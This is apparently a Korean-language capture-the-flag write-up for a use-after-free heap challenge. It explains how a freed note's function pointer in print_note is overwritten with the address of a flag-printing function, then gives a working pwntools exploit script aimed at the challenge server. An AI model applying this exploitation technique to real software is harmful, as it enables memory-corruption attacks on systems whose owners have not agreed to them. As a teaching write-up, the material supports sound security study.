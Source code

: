 ```c
}
```
`print_note`에서는  notelist를 참조하여 출력해주는 함수이다.<br>
이 부분에서 notelist의 포인터를 호출하는데, 할당 해제가 된 포인터인지 검증을 하지 않기때문에, 이 부분을 조작하면 다른 함수로 호출이 되도록 할수있다.<br>

```c
int magic()
{
  return system("cat /home/uaf/flag");
}
```
magic이라는 함수는 flag를 띄워주는 함수로 보인다.<br>

따라서, print_note의 주소값을 flag함수로 바꾼뒤 print_note를 호출하면, flag함수가 호출될것으로 보인다.<br>

---

# Exploit Code

```c

from pwn import *

p = remote("ctf.j0n9hyun.xyz",3020)
def add_note(size,content):
    p.recv()
    p.sendline("1")
    p.recv()
    p.sendline(size)
    p.recv()
    p.sendline(content)

def del_note(index):
    p.recv()
    p.sendline("2")
    p.recv()
    p.sendline(index)

def p_note(index):
    p.recv()
    p.sendline("3")
    p.recv()
    p.sendline(index)

magic = 0x08048986

add_note("16","")
add_note("16","")
del_note("0")
del_note("1")

add_note("8",p32(magic))
p_note("0")
p.interactive()

```
